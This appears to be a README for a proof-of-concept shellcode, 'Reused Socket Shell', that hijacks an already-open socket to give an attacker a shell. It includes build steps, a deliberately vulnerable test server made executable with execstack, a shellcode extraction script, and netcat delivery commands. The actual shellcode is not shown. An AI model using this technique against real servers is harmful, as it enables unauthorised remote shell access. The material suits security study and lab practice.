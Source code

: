 RSS : Reused Socket Shell

This is a proof of concept of a shellcode that reuse an existing socket to bind a shell on it

I've made two versions of this, the first one (shellcode.s) just check for the last opened file descriptor and gives you the shell though it. Wether it is your socket or not. This method should work on a server that fork() for each client and wich didn't open something after the socket was accepted.
The second version loops through the filedescriptors ; and make a call to recvfrom() for each one of theses. If it gets the good data, it will drop the shell. Otherwise, nothing happen it'll just check for the next socket.

To compile it use :

   ```
   nasm -o shellcode.o -felf64 shellcode.s
   ```

To link it (that step should not be necessary) :

   ```
   ld -o shellcode shellcode.o
   ```

For the test server, you should :

Compile it with gcc:

   ```
   gcc -o server serv_test.c
   ```

And then you should run execstack, wich will allow code execution on the stack. This is needed because we store the user's buffer in an array on the stack, and then execute it. Execstack should be one your repository :

   ```
   apt-get install execstack
   ```

And then run:
   
   ```
   execstack -s ./server
   ```

When you've done all of this, you can run the server.
And to get the shellcode, I use the command line (thanks to http://www.commandlinefu.com for that) in a script (I called it 'getsc') :

    #!/bin/sh
    for i in $(objdump -d $1 -M intel |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo

For testing, we will use this :

    (echo -ne `getsc shellcode` ; cat) | nc localhost 1024

And for our shellcode V2, we will need to give him the pattern to match, so let's use this :

    (echo -ne `getsc shellcode` ; echo -n BBBB ;  cat) | nc localhost 1024